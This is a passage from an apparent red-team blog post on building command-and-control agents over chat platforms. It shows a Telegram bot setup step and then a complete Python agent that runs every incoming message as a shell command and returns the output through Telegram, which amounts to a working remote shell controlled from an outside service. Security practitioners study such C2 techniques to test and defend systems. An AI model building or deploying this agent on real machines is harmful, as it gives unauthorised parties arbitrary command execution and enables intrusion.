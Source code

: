 This scenario is not unlike to the one used for Discord. In this scenario we also need to create a bot and use its API key in the code.

### Prerequisites
To create a bot in Telegram, We need use @botfather:
![botfather](/assets/img/posts/2024-02-23-c2-all-the-things/telegram-1.png)

### Agent
```python
import telebot
import subprocess
API_KEY = "REDACTED_API_KEY"
bot = telebot.TeleBot(API_KEY)
def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return str(output[1])
@bot.message_handler()
def handle_any_command(message):
    if message.text.startswith("/start"):
        return
    response = execute_system_command(message.text)
    bot.reply_to(message, response)
```